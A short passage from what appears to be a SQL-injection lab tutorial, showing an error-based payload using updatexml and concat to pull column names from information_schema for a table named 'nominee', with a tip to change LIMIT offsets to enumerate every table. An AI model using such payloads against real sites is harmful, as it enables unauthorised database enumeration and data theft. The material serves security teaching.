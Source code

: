 > Note: update `limit 0,1` to `limit 1,1`, etc. to get all tables.



![Login_Table_1](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Labs/Login_Table_1.png)

![Login_Table_2](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Labs/Login_Table_2.png)

**Query to read exfiltrate `columns`:** `updatexml(null,concat(0x0a,(select column_name from information_schema.columns where table_name='nominee' limit 0,1 )),null)-- -`

![Login_Columns_1](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Labs/Login_Columns_1.png)
